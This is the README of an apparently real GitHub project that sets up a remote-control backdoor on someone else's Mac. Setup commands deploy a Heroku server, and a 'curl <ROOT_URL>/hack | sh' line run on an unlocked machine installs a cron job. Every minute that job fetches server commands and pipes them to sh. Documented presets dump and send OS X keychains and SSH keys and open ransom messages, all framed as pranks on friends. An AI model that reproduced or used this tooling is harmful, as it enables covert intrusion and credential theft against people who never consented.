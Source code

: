 # Hack

This project helps your hack your friends. All you need to do is wait for them to leave their computer unlocked, open up Terminal, and run a single curl command.

[Check out this blog post for more details about how this works](TODO) or jump right in below.

## Getting Started

Clone, install, and link so you can use the `hack` cli tool.

```sh
git clone https://github.com/ccorcos/hack.git
git remote remove origin
cd hack
npm install
npm link
```

If you've never used Heroku before, [signup here](https://signup.heroku.com/) (it's free!) and set up their cli tool on your machine.

```sh
brew install heroku-toolbelt
heroku login
```

Create a Heroku app with an easy name to remember.

```sh
heroku create hacker-chet
```

The following command will get the root url for your Heroku website and put it in your `package.json`. This way the server can inject a root url into the shell scripts.

```sh
npm run init
```

You can stand up the server locally if you want do you can hack yourself and test things out.

```sh
npm start
```

Or you can deploy to Heroku.

```sh
npm run deploy
```

Now you're ready to hack!

## Infecting

To hack someone, run this in their Terminal:

```sh
curl <ROOT_URL>/hack | sh
```

`ROOT_URL` is the specific path to your application. When you're testing locally, this will be `localhost:5000` and when you deploy to Heroku, it will be something like `<APP_NAME>.herokuapp.com`.

What this does is sets up a cron job to ping the `/env/live` endpoint every minute and pipes the result to `sh`. And Heroku gives you HTTPS for free so I wouldn't be too worried about hacking yourself with it. Everything else happens at the commandline using the `hack` cli tool.

## API

- `hack deploy` - deploy your latest changes to Heroku.
- `hack logs` - view your server logs

The following commands are specific to environments and must be followed with a deploy for the changes to be applied to your server.

- `hack <env> exec <cmd>` - execute a command on the remote machine. e.g. `hack live exec "say hello"`
- `hack <env> cron <job>` - add a cronjob to the remote machine [[ref](http://www.nncron.ru/help/EN/working/cron-format.htm)]. e.g. `hack live cron "0 8 * * * say 'good morning'"`
- `hack <env> dump <cmd>` - execute a command on the remote machine and log the result.
- `hack <env> preset <name>` - check the source to see what presets there are and what they do.
- `hack <env> interval <time>` - change the ping interval. options are `1m`, `1d`, `1m`, `1y`
- `hack <env> reset` - reset all cronjobs and ping every minute
- `hack <env> rename <name>` - switch the env that gets pinged
- `hack <env> forget` - removed the ping cronjob to disconnect with the remote machine

## Presets
- `hack <env> preset 420` - say at 4:20PM every day 'its foe 20, ye better be toke-in'
- `hack <env> preset cronjobs` -  dump and send current cron jobs
- `hack <env> preset desktop <image_url>` - set desktop background to image
- `hack <env> preset passwords` - dump and send OSX keychains
- `hack <env> preset ransom <message>` - Opens TextEdit with ransom message
- `hack <env> preset ssh` - dump and send SSH keys

## PS

[A nice resource on how to make a Node.js CLI app.](http://blog.npmjs.org/post/118810260230/building-a-simple-command-line-tool-with-npm)
